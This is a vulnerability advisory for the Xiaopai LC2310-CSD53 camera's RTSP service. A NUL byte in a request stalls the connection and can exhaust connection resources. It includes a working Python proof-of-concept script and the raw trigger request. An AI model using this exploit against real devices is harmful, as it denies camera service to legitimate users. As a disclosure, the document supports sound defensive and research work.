




# Xiaopai LC2310-CSD53 - NUL Byte in RTSP Request Causes Connection Resource Exhaustion

### Information

Vendor: Shenzhen Xiaopai Technology Co., Ltd. (Xiaopai)

Affected Product: LC2310-CSD53

Affected Firmware Version: 1.00.18

Vendor Homepage: [https://www.xiaopaitech.com](https://www.xiaopaitech.com)

Vendor Contact Information: 0755-86566780 / 400-822-1116 (official support phone)



Affected Component: RTSP service (TCP/554)

### Description

A vulnerability in the RTSP service of Xiaopai LC2310-CSD53 firmware 1.00.18 allows an unauthenticated attacker to consume RTSP connection resources. A crafted RTSP request containing a NUL byte in the request line or a header value is accepted but receives no RTSP response, and the connection remains open. The behavior was confirmed in 19 request-line and header-value positions across the OPTIONS, DESCRIBE, SETUP, PLAY, and TEARDOWN stages, and repeated or concurrent requests may cause a denial of service.

### Exploit Demo

The RTSP service uses Digest authentication (realm `zlmeida`) on TCP/554. The PoC first sends a normal `OPTIONS` request and then sends a complete `DESCRIBE` request with one NUL byte at the end of the URI. The service accepts the request at the TCP layer, but returns no RTSP response and keeps the connection open.

The terminal output shows the baseline `OPTIONS 200 OK`, the NUL-bearing `DESCRIBE`, the 60-second receive window, and the absence of an RTSP response:



Wireshark shows the TCP handshake, the normal `OPTIONS 200 OK`, the NUL-bearing `DESCRIBE`, and the later client FIN followed by the server FIN. The device sent no RTSP response or RST before the client closed the connection:



A second capture shows the same `OPTIONS 200 OK` and NUL-bearing `DESCRIBE` sequence repeated. Each malformed request is sent without an RTSP response:



The behavior is not limited to the URI. The same result was confirmed in 19 request-line and header-value positions across all seven RTSP stages:

| RTSP stage | Positions confirmed to stall |
|---|---|
| `OPTIONS` | URI, CSeq, User-Agent |
| `DESCRIBE` (unauthenticated) | URI, Accept |
| `DESCRIBE` (authenticated) | Authorization, Accept |
| `SETUP` (first track) | Transport, Authorization, User-Agent |
| `SETUP` (second track) | Transport, Session |
| `PLAY` | Range, Session, Authorization, URI |
| `TEARDOWN` | Session, Authorization, User-Agent |

Printable-character controls at representative positions in each of the seven stages returned normal RTSP status codes, and a NUL-bearing `Accept` value remained open for at least 65 seconds. The PoC uses the simplest representative trigger; the full matrix above was confirmed during manual testing.

Because the service does not reject or close a malformed request, every NUL-bearing request retains a connection. Repeated or concurrent requests can therefore accumulate and may exhaust RTSP connection resources, leading to a denial of service for legitimate clients. The exact connection limit and exhaustion threshold were not measured.

A 50-second screen recording of the complete reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the terminal output, the NUL request, the 60-second observation window, and the Wireshark capture.

### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger itself does not require authentication; the username and password placeholders are retained for consistency.

```python
#!/usr/bin/env python3
"""LC2310-CSD53 NUL-byte RTSP request PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
A complete DESCRIBE request with one NUL byte in the URI is accepted at the
TCP layer, but the service keeps the connection open without an RTSP response.
Run this file directly from VS Code.
"""

import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554

# Not required for this unauthenticated DESCRIBE trigger.
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_DELAY = 1.0
RESPONSE_WAIT = 60.0
USER_AGENT = "LC2310-NUL-test/1.0"

BASE = "rtsp://%s:%d/md0_0" % (TARGET_IP, TARGET_PORT)


def show_request(payload):
    text = payload.decode("latin-1")
    text = text.replace("\x00", "\\x00")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        print("    | " + line)


def main():
    print("=" * 64)
    print("LC2310-CSD53 NUL-byte RTSP request PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("=" * 64)

    sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=5.0)
    sock.settimeout(5.0)
    stream = sock.makefile("rb")

    try:
        options = (
            "OPTIONS %s RTSP/1.0\r\n"
            "CSeq: 2\r\n"
            "User-Agent: %s\r\n\r\n"
        ) % (BASE, USER_AGENT)
        print("\n[Baseline OPTIONS]")
        show_request(options.encode("latin-1"))
        time.sleep(REQUEST_DELAY)
        sock.sendall(options.encode("latin-1"))
        status = stream.readline().decode("latin-1").strip()
        print("  <- %s" % status)
        while True:
            line = stream.readline()
            if line in (b"\r\n", b"\n", b""):
                break

        describe = (
            b"DESCRIBE " + BASE.encode("ascii") + b"\x00 RTSP/1.0\r\n"
            b"CSeq: 3\r\n"
            b"User-Agent: " + USER_AGENT.encode("ascii") + b"\r\n"
            b"Accept: application/sdp\r\n\r\n"
        )
        print("\n[DESCRIBE URI + NUL]")
        show_request(describe)
        time.sleep(REQUEST_DELAY)
        sock.sendall(describe)

        print("  receiving for up to %.1fs; a response is read as soon as it arrives ..."
              % RESPONSE_WAIT)
        # 60-second receive timeout: readline() blocks only until data arrives.
        sock.settimeout(RESPONSE_WAIT)
        try:
            reply = stream.readline()
        except socket.timeout:
            reply = b""

        if reply:
            print("  <- unexpected response: %s" % reply.decode("latin-1").strip())
        else:
            print("  -> no RTSP response; connection remains open")
            print("  -> closing the connection from the client side")
    finally:
        try:
            stream.close()
        except OSError:
            pass
        try:
            sock.close()
        except OSError:
            pass


if __name__ == "__main__":
    main()

```

### MSG

The complete representative trigger is shown below. `192.168.1.100` is a placeholder for the target address, and `\x00` denotes one literal NUL byte. All request lines use CRLF.

```text
OPTIONS rtsp://192.168.1.100:554/md0_0 RTSP/1.0
CSeq: 2
User-Agent: LC2310-NUL-test/1.0

DESCRIBE rtsp://192.168.1.100:554/md0_0\x00 RTSP/1.0
CSeq: 3
User-Agent: LC2310-NUL-test/1.0
Accept: application/sdp
```

The original fuzzer input contained the full seven-request sequence, but the NUL-bearing `DESCRIBE` stalls before the later requests are processed. The same NUL behavior was confirmed at the 19 positions listed above.

### Credit

CRfuzzer
